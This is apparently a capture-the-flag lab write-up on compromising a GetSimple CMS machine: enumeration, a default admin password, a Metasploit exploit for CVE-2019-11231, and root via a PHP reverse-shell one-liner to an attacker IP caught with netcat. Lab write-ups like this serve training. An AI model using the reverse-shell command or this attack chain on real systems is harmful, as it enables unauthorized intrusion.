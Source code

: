 ```yaml
---
title: Knowledge Check - GetSimple
updated: 2022-12-23T20:31:44.0000000+00:00
created: 2022-12-21T19:28:13.0000000+00:00
---
```


**Enumeration:**

First we scan the IP with nmap and see that there is a http and ssh port open:
![image1](../../../../../_resources/image1-87.png)
The machine is also a Linux machine.

Looking at the html page, we see that this is a Get Simple http page.
All of the links seem to link to the URL: <http://gettingstarted.htb/>, which doesn't resolve.

When scanning for scripts we get some interesting info:
![image2](../../../../../_resources/image2-69.png)

Looking at the subdomain */admin.* We get an admin portal (<http://10.129.48.213/admin/>):
![image3](../../../../../_resources/image3-59.png)

Using **GoBuster,** we can see various sub-domains:
![image4](../../../../../_resources/image4-50.png)

Looking at these sub domains we found out we have a user named **admin** and a file that seems to have a password:
![image5](../../../../../_resources/image5-39.png)
It looks hashed though, apparently it is SHA1, decoding it also gives the password **admin**:
![image6](../../../../../_resources/image6-29.png)
And we are in:
![image7](../../../../../_resources/image7-23.png)

Foothold:

Now that we are inside the admin portal, we need to find something vulnerable so we can get code execution and a shell.

Looking inside the admin portal we see:

- GetSimple Version 3.3.15 is running
- PHP version 7.4.3 is running
- The Apache web server is 2.4.41

Using metasploit, we find an exploit that works on GetSimple version 3.3.15 that allows us to execute PHP code.

<https://nvd.nist.gov/vuln/detail/CVE-2019-11231>

After setting RHOSTS to the Target IP and LHOSTS to our VPN ip and finally LPORT to port 8443.

We get a foothold on the machine:
![image8](../../../../../_resources/image8-21.png)

We then are able to navigate to /home/ and find the user.txt flag:
![image9](../../../../../_resources/image9-19.png)

Using *shell* within a meterpreter shell in msfconsole gives us access to the raw shell. We can then upgrade it using: **python3 -c 'import pty; pty.spawn("/bin/bash")'**
![image10](../../../../../_resources/image10-14.png)

Privilege Escalation:

Now we need to check if we have any vulnerabilities for privilege escalation using LinEnum, so first we need to download that file into the box.

Using wget, we can't write inside mrb3n's folder, we need to head to the www/html/theme which we do have access to, so that we can download the script:

![image11](../../../../../_resources/image11-11.png)

Running the LinEnum script we can see:
![image12](../../../../../_resources/image12-7.png)

Looking at payload of all things, we can see a php one-liner:

php -r '\$sock=fsockopen("10.10.14.253",8443);exec("/bin/sh -i \<&3 \>&3 2\>&3");'
![image13](../../../../../_resources/image13-6.png)

Using a netcat listener, we get a root:
![image14](../../../../../_resources/image14-6.png)

